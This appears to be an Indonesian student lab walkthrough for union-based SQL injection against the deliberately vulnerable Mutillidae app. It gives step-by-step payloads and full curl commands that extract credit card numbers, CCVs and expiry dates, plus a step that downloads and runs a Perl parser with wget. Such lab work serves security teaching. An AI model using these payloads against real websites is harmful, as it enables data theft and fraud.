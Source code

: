 ### LESSON 8
1. Pada terminal metasploitable jalankan perintah berikut.
Ketikan perintah (sudo mysql atau mysql -u [nama_user] -p [password]). Lalu tekan enter. Ketikan perintah (show databases;) untuk menampilkan list dari database yang ada
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.1.png "success login as root in mysql")

2. Ketikan perintah (use owasp10) untuk memilih database yang aktif. Lalu perintah (show tables;) untuk menampilkan seluruh tabel pada database aktif.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.2.png "change database and show table")

3.Ketikan perintah (desc accounts;) untuk menampilkan struktur tabel dari accounts. Lalu ketikan perintah (desc credit_cards;) untuk menampilkan struktur tabel dari credit_cards.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.3.png "desc accounts and credit_cards table")

4. Ketikan perintah (select * from accounts union select ccid,ccnumber,ccv,expiration,null from credit_cards;). union digunakan untuk mengabungkan hasil query beberapa statement select menjadi 1 tabel.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/1.4.png "union query")

5. Selanjutnya, buka browser pada kali linux dan ketikan perintah URL sebagai berikut [IP_metasploitable]/mutillidae seperti pada gambar
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.1.png "Mutillidae Homepage") 
pada gambar 192.168.56.101/mutillidae

6. Pilih owasp10, injection, sqli-extract data, user info
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.2.png "open userinfo")

7. Ketikan perintah (' union select null -- ) pada kolom nama. lalu tekan enter 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.3.png "union query")

8. Hasil error menunjukan bahwa query yang diunion memiliki jumlah kolom yang berbeda.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.4.png "union query")

9. Klik kanan pada kolom name, pilih inspect element, kemudian ubah size dari kolom inputan nama menjadi 50 dengan mengubah size=20 menjadi size=50. Kemudian lakukan percobaan dengan menambah kolom yang diunion dengan cara menambah (,null) pada akhir pada perintah select sehingga menjadi (' union select null,null -- ). Pada gambar digunakan 5 null yang menyatakan 5 kolom yang akan di union kan. Untuk kasus yang lain jumlah null harus dicoba dan diiterasi sendiri.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.5.png "mencari jumlah kolom")

10. Hasilnya ketika di enter adalah tidak ada lagi error yang menyatakan bahwa union telah berhasil.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.6.png "union berhasil")

11. Selanjutnya untuk memetakan mana kolom pada database yang berhubungan dengan angka-angka ketika output ditampilkan, maka digunakan perintah (' union select 1,2,3,4,5 -- )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.7.png "memetakan output")

12. Hasilnya ketika dienter adalah 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.8.png "hasil memetakan output")

13. Selanjutnya untuk mengeluarkan hasil yang diinginkan yaitu yang ada pada tabel credit_card maka dilakukan dengan perintah (' union select ccid,ccnumber,ccv,expiration,null from credit_cards -- )(jangan lupa spasi pada akhir perintah (-- )
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.9.png "union sql injection")

14. Hasilnya ketika dienter adalah
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/2.10.png "hasil union sql")
Data pada username menyatakan nomor kartu kredit, password menyatakan password, dan signature adalah masa berlaku.

15. Ketika dilakukan dengan curl, ketikan perintah ini pada termintal (curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[IP_Address_mutillidae]/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'). Perlu menganti alamat ip agar sesuai.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.1.png "use curl")

16. Hasilnya adalah sebagai berikut
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.2.png "output use curl")
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.3.png "output use curl")

17. Untuk membuat output file maka ketikan perintah (cd /root)
kemudian ketikan perintah berikut (curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://[IP_Address_mutillidae]/mutillidae/index.php" | grep -i "Username="  > lesson8.txt). Perlu menganti alamat ip agar sesuai. Kemudian ketikan perintah (cat lesson8.txt) untuk menampilkan. 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.4.png "cat the use of curl")

18. Selanjutnya adalah mendownload output parser. Tujuannya adalah agar hasil crawl dapat dibaca dengan baik. Pertama ketikan perintah (cd /root) untuk pindah ke direktori root. kedua, ketikan perintah (wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT) untuk mendownload parser dalam bahasa perl. Kemudian ketikan (mv lesson8.pl.TXT lesson8.pl) untuk mengubah eksistensi file menjadi (.pl). Lalu perintah (chmod 700 lesson8.pl) untuk memastikan hanya pemilik yang bisa menjalankan.
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.5.png "download and prepare parser")

19. Kemudian jalankan parser yang sudah didownload dengan perintah (./lesson8.pl) lalu enter
hasilnya adalah 
  ![alt text](https://github.com/KharismaMonika/Tugas-Final-PKSJ/blob/master/Mutillidae/LESSON_8/3.6.png "run the parser")


